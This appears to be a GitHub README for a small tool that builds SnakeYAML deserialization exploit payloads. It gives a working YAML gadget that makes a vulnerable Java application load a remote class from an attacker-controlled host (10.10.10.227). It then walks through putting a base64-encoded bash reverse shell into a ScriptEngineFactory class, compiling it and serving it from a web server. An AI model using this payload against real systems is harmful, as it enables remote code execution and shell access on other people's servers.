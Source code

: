 # yaml-parser-payload
payload parser yaml javaweb


A tiny project for generating payloads for the SnakeYAML deserialization gadget (taken from https://github.com/mbechler/marshalsec):

-------yaml parser javaweb------------
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.10.227/"]
  ]]
]
```
edit AwesomeScriptEngineFactory.java and put reverse shell in bash  

in this page encode reverse shell  in base64 http://www.jackson-t.ca/runtime-exec-payloads.html

and compile:

------bash console-----
```bash
javac AwesomeScriptEngineFactory.java
```
```tree
 exploit /
  |-->      META-INF/services/javax.script.ScriptEngineFactory inside file put h1dr0.AwesomeScriptEngineFactory/
  |-->      h1dr0/AwesomeScriptEngineFactory.class
```
Then place the 'AwesomeScriptEngineFactory.class' file in to the web server folder (e.g. h1dr0/AwesomeScriptEngineFactory.class)
